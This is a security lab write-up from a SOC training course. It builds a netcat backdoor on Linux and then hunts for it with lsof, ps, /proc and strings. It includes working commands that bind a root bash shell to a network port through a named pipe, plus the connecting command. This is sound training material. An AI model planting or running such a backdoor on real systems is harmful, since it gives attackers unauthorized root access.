# "Linux CLI Malware Detection: Netcat Backdoor

This lab is provided by Antisyphon Training's SOC Core Skills course. I will explore the setup and detection of backdoor malware using a netcat listener, a common tool for establishing unauthorized remote access. The exercise aims to simulate a real-world cyber threat scenario, providing hands-on experience in malware analysis and defense techniques. By leveraging the Linux Command Line Interface (CLI), I will detect and analyze the backdoor. 
<br>
<br>

## Create the malware 
- I first sudo into root so that I can have a backdoor running root.
```
sudo su -
```
<br>
<br>

- This is a simple backdoor mechanism that uses netcat to create a network listener that pipes commands to and from a bash shell, allowing an attacker to remotely execute commands on the system by connecting to port 2222. 
```
mknod backpipe p
/bin/bash  0<backpipe | nc -l 2222 1>backpipe
```

![backdoor](https://github.com/trixiahorner/Linux_CLI/assets/162903587/d9187608-208a-4da0-99d3-70435d6ef994)
<br>
<br>

- IP address of linux system in order to connect
```
ifconfig
```
<br>
<br>

- Now I connect from a Windows system! Once connected, I type some commands to ensure that it is working. As you can see, the Windows computer is connected to the simple Linux backdoor as root. This is the malware. Someone is listening.
```
ncat 172.17.231.122 2222
```

![netcat](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C2.png?raw=true)
<br>
<br>

## Linux CLI Analysis of malware
- I begin analysis from the Linux CLI. It's time to hunt and find the malware, so I open up a window for analysis.
```
sudo su -
```
<br>
<br>

- Using *lsof* I can see a listening device and an established connection.
```
lsof -i -P
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C3.png?raw=true)
<br>
<br>

- I look at the netcat process ID using the -p option. This will give me all the open files associated with the listed process ID (the netcat listener)
```
lsof -p 203
```

![lsof](https://github.com/trixiahorner/Linux_CLI/blob/main/images/C4.png?raw=true)
<br>
<br>

- I look at the full processes using the ps command (-a for all, -u to sort by user, -x to include the processes uning a teletype terminal)
```
ps aux
```

![psaux](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c5.png?raw=true)
<br>
<br>

- The proc directory allows me to see data associated with the various processes directly. I *cd* into this directory and list the contents
```
cd /proc/203
ls
```

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c6.png?raw=true)
<br>
<br>

- I run strings on the *exe* in this directory (piping it through less). This can be used to attemp to identify what exactly a program is doing. There is a lot
  going on, but I keep clicking the space bar, and eventually I see the actual usage information for netcat.
  Now I know that the malware is netcat.
```
strings ./exe | less
```

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c7.png?raw=true)

![proc](https://github.com/trixiahorner/Linux_CLI/blob/main/images/c8.png?raw=true)

<br>
<br>


# Conclusion
This lab is crucial for understanding the behavior of backdoor malware and the methodologies used to identify and respond to such threats effectively.
